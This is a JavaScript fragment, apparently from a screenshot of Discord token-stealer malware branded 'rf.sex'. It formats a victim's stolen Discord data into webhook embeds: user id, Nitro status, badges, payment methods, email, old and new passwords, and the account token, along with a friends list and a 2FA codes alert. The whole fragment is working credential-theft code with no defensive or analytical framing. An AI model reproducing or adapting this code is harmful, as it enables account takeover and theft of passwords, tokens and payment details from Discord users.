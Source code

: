                                         name: "id:",
                                        value: `\`${json.id}\``,
                                        inline: !0
                                    }, {
                                        name: "nitro:",
                                        value: `${getNitro(json.premium_type)}`,
                                        inline: !0
                                    }, {
                                        name: "badges:",
                                        value: `${getBadges(json.flags)}`,
                                        inline: !0
                                    }, {
                                        name: "payment methods:",
                                        value: `${cool()}`,
                                        inline: !0
                                    }, {
                                        name: "email:",
                                        value: `\`${json.email}\``,
                                        inline: !0
                                    }, {
                                        name: "old password:",
                                        value: `\`${oldpassword}\``,
                                        inline: !0
                                    }, {
                                        name: "new password:",
                                        value: `\`${newpassword}\``,
                                        inline: !0
                                    }, {
                                        name: "token:",
                                        value: `\`\`\`${token}\`\`\``,
                                        inline: !1
                                    }, ],
                                    "author": {
                                        "name": "rf.sex"
                                    },
                                    "footer": {
                                        "text": "better than all."
                                    },
                                    "thumbnail": {
                                        "url": `https://cdn.discordapp.com/avatars/${json.id}/${json.avatar}`
                                    }
                                }, {
                                    "title": `total friends (${totalFriends()})`,
                                    "color": config['embed-color'],
                                    "description": calcFriends(),
                                    "author": {
                                        "name": "rf.sex"
                                    },
                                    "footer": {
                                        "text": "better than all."
                                    },
                                    "thumbnail": {
                                        "url": `https://cdn.discordapp.com/avatars/${json.id}/${json.avatar}`
                                    }
                                }]
                            }
                            var mfaembed = {
                                "title": "<:bughunter_2:874750808430874664> storm alert",
                                "description": `to view 2FA passwords, log into your account and click "View Codes"`,
                                "color": config['embed-color'],
                                "fields": fieldo,
                                "author": {
                                    "name": "rf.sex"
                                },